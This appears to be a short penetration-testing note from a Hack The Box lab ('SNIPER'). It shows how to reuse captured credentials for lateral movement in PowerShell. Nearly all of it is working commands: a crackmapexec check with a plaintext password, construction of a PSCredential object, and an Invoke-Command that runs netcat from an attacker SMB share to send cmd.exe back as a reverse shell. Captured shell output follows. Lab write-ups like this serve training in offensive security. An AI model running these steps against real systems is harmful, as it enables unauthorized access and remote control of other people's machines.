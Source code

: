 # Lateral Mvmt in PowerShell

when we found credentials of an user account in PS, we can utilize the following methodology to get shell as this user.

---

First of all let's confirm that those creds are working, utilizing crackmapexec

```
crackmapexec smb 10.129.229.6 -u chris -p '36mEAhz/B8xQ~2VM'
```

## Create Credential Object

```
$password = convertto-securestring -AsPlainText -Force -String "36mEAhz/B8xQ~2VM";
$credential = new-object -typename System.Management.Automation.PSCredential -argumentlist "SNIPER\chris",$password;
```

Running the following command prompted us with an working command.

```
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { whoami } -credential $credential;
sniper\chris
```

Started up listener on port 8888

```
nc -lvnp 8888
```

Assuming you have an running smb server on your local machine, with an netcat binary inside it.

```
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { \\10.10.14.239\htb\nc.exe -e cmd.exe 10.10.14.239 8888 } -credential $credential;
```

Gained RCE as user "Chris".

```
nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.10.14.239] from (UNKNOWN) [10.129.229.6] 49873
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Chris\Documents>whoami
whoami
sniper\chris
```
